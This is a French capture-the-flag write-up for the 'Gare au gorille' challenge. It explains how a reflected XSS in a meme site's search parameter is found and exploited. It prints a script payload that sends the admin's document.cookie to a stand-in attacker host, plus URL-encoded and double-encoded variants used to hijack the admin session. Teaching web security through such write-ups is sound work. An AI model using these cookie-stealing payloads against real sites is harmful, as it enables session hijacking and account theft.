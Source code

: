 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser à une XSS et éventuellement un vol de cookie. On teste directement le champ `/?search=` avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

`<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

On test donc le payload sur notre propre session avec le champ de recherche : 

    https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

    https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F[ATTACKINGIP]%22%2Bdocument.cookie%3B%3C%2Fscript%3E

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

    https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F[ATTACKINGIP]%2522%252Bdocument.cookie%253B%253C%252Fscript%253E

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.
